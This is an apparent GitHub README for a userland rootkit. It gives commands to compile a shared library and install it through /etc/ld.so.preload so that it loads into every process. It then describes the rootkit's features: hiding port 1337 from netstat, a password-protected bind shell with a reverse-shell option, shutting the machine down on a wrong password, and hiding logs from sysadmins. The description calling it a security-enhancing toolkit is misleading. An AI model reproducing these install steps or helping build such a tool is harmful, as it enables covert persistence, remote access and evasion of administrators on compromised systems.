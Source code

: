 ## Introduction

Welcome to my rootkit userland This toolkit offers some cool and interesting functionalities designed to enhance your digital security. Let's dive into what it can do.


## INSTALL MANUAL

1) *git clone*:
```
git clone https://github.com/DARKSECshell/ROOTKIT-USERLAND
```

3) *userland rootkit compilation*
```
gcc DRK.c -o DRK.so -shared -fPIC -ldl
```

5) *moved library for /etc/ld.so.preload*
```
echo "$(pwd)/DRK.so" > /etc/ld.so.preload && ldconfig
```

7) *Check rk loading*
```
ldd /usr/bin/ls
```


## Functionality Overview

When the digital attacker issues the command to kill port 1337, an interesting sequence of events unfolds:

1. **Password Prompt**: Upon attempting to kill port 1337, the rootkit will prompt for a password.
   
2. **Password Verification**: If the provided password matches the expected one, the rootkit will proceed to the next step.
   
3. **Incorrect Password Handling**: If the password provided does not match the expected one, the machine will initiate a shutdown process.

But what happens if the correct password is entered?

4. **Port 1337 Hiding**: The rootkit will stealthily hide port 1337 from detection. Even tools like `netstat` (and possibly `ss` in the future) will be deceived.

5. **Bind Shell Activation**: Additionally, the rootkit will activate a bind shell on the local machine. While firewalls may attempt to block it, the user will have the option to choose between a reverse shell or a bind shell.

6. **Log Concealment**: The rootkit ensures that commands like `tail` will have no effect. Sysadmins won't be able to spot suspicious activity in logs, nor will they be able to use other tools to inspect them.

7. **Future Plans**: Looking ahead, I'm considering further enhancements to make the rootkit even more stealthy. For instance, I'm contemplating hiding `/etc/ld.so.preload` to minimize suspicion from sysadmins.
